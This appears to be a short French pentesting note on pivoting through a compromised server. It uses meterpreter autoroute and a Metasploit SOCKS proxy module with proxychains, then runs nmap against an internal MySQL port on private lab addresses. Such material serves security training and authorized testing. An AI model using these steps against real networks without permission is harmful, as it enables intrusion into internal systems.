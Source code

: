 > Par exemple, si le serveur compromis est `172.16.0.5` et que la cible est le port `3306` de `172.16.0.10`, nous pourrions utiliser meterpreter:

Verifier les interfaces reseaux

```c
route
ifconfig
arp
```

Ajouter une route

```c
run autoroute -s 172.16.0.1/24
```

Voir les routes en cour...

```c
msf6 exploit(multi/handler) > route print 
```

Demmarrer un proxy

```sh
use auxiliary/server/socks_proxy
set srvport 1337
set srvhost 127.0.0.1
run
```

Puis modifier le fichier de proxy

```sh
nano /etc/proxychains.conf
	socks4 127.0.0.1 1337
```

En fin

```sh
proxychains nmap -sV -p 3306 172.16.0.10
```